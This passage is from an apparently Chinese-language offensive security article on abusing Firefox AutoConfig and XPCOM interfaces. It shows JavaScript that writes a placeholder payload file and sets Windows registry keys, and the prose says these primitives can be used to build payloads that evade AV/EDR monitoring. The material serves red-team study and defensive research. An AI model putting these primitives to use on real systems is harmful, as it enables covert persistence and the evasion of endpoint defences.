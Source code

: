 ```
    var file = Components.classes["@mozilla.org/file/local;1"]
                            .createInstance(Components.interfaces.nsIFile);
    file.initWithPath(out_file);
    var stream = Components.classes["@mozilla.org/network/safe-file-output-stream;1"].createInstance(Components.interfaces.nsIFileOutputStream);
    stream.init(file, 0x04 | 0x08 | 0x20, 0600, 0);                       
    var payload = "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41";
    stream.write(payload, payload.length);
    if (stream instanceof Components.interfaces.nsISafeOutputStream) {
        stream.finish();
    } else {
        stream.close();
    }
}
```

### <a class="reference-link" name="%E5%86%99%E5%85%A5Windows%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%94%AE%E5%80%BC"></a>写入Windows注册表键值

此外我们还可以使用`nsIWindowsRegKey`接口来处理Windows注册表。比如，我们将某个键值写入注册表中：

```
function registry_createKey(key_path) {
    var wrk = Components.classes["@mozilla.org/windows-registry-key;1"]
                    .createInstance(Components.interfaces.nsIWindowsRegKey);
    wrk.create(wrk.ROOT_KEY_CURRENT_USER, key_path, wrk.ACCESS_WRITE);
    wrk.close();
}
function registry_setKeyValue(value, data, type, key_path) {
    var wrk = Components.classes["@mozilla.org/windows-registry-key;1"]
                    .createInstance(Components.interfaces.nsIWindowsRegKey);
    wrk.open(wrk.ROOT_KEY_CURRENT_USER, key_path, wrk.ACCESS_WRITE);
    switch (type) {
        case "REG_SZ":
            wrk.writeStringValue(value, data);
            wrk.close();
            break;
        case "REG_DWORD":
            wrk.writeIntValue(value, data);
            wrk.close();
            break;
    }
}
```

这类XPCOM原语可以用来通过各种方式构造payload，规避AV/EDR产品对特定执行方式的监控。以上我们只给出了部分使用场景，大家可以参考[XPCOM文档](https://developer.mozilla.org/en-US/docs/Mozilla/Tech/XPCOM/Reference/Interface)了解更多接口，构造高级payload。

### <a class="reference-link" name="%E6%9B%B4%E5%A4%9AAutoConfig%E6%94%BB%E5%87%BB%E6%96%B9%E5%BC%8F"></a>更多AutoConfig攻击方式
